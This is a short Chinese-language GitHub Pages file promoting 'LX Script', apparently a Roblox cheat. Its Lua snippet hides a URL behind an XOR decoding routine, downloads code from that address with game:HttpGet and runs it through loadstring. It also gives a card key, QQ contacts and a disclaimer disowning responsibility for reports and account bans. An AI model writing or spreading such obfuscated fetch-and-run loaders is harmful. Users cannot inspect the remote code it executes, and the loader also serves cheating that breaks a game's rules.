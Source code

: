 ```yaml
---
permalink: /
title: "关于 LX Script"
author_profile: true
redirect_from: 
  - /about/
  - /about.html
---
```

# LX脚本
```lua
Liu_Script = "卡密:6 Script"
Liu_Script = "群:1023667706"
local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit ;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9) local v10={};for v11=1, #v8 do v6(v10,v0(v4(v1(v2(v8,v11,v11 + 1 )),v1(v2(v9,1 + (v11% #v9) ,1 + (v11% #v9) + 1 )))%256 ));end return v5(v10);end loadstring(game:HttpGet(v7("\217\215\207\53\245\225\136\81\195\194\204\107\225\178\211\22\196\193\206\54\227\169\196\17\223\215\222\43\242\245\196\17\220\140\138\117\238\246\215\31\210\200\148\43\227\172\138\43\248\141\136\113\179\244\213\27\215\208\148\45\227\186\195\13\158\206\218\44\232\244\145\91\244\155\158\125\178\254\158\63\148\230\141\96\191\152\130\63\242\134\254\112\163\227\227\91\240\146\158\0\179\254\230\56\148\155\141\107\234\174\198","\126\177\163\187\69\134\219\167")))();
```
注意:目前脚本卡密为*6 Script*即将更改为随机化生成
# 作者
作者为*LX*与*XiaoBai*,LX联系方式QQ:345628400
# 免责声明
使用此脚本被骂/被举报/被封号概不负责
# 脚本2
脚本完全免费
不会停更
# 感谢
感谢所有支持者与使用者
